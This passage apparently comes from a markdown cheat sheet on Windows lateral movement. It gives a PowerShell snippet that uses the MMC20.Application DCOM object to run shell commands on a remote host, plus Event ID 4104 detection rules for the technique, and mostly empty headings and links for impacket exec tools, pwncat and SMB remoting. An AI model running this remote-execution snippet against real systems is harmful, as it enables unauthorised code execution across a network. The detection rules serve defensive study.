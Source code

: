 ```powershell
$shell = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","10.x.x.7"))
$shell = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","10.x.x.7"))
$shell.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c whoami & hostname > c:\temp\test.txt","7")
```

🔎️ DETECT :
```powershell
# DCOM Attack Monitor
Security Event Log / Event ID is any of 4104
and when the event matches Command (custom) contains all of [activator or CreateInstance]
and when the event matches Command (custom) contains any of  [GetTypeFromCLSID or GetTypeFromProgID]
and when the event matches Command (custom) contains any of [9BA05972-F6A8-11CF-A442-00A0C90A8F39 or c08afd90-f2a1-11d1-8455-00a0c91f3880 or 7e0423cd-1119-0928-900c-e6d4a52a0715 or MMC20.Application]

# DCOM Lateral Movement Detection
Security Event Log / Event ID is any of 4104
and when the event matches Command (custom) contains any of [Document.Application.ShellExecute or Document.ActiveView.ExecuteShellCommand]
```

### <a name='impacket'></a>impacket

#### <a name='atexec'></a>atexec
🔑 KEYPOINTS :
#### <a name='dcomexec'></a>dcomexec
🔑 KEYPOINTS :
#### <a name='psexec'></a>psexec
🔑 KEYPOINTS :
#### <a name='smbexec'></a>smbexec
🔑 KEYPOINTS :

### <a name='invoke-SMBRemoting'></a>invoke-SMBRemoting

[Invoke-SMBRemoting](https://github.com/Leo4j/Invoke-SMBRemoting)

### <a name='powershell'></a>powershell

* [PowerMeUp](https://github.com/ItsCyberAli/PowerMeUp)
* [pwncat](https://github.com/calebstewart/pwncat)
* [PSRemoting](https://www.jmvwork.xyz/sysadmin/sys-win-ps-useful-queries/#PSCredentialinitialization)

#### <a name='enter-pssession'></a>enter-pssession


#### <a name='copy-item'></a>copy-item

### <a name='xcopy'></a>xcopy
🔑 KEYPOINTS :
https://ss64.com/nt/xcopy.html
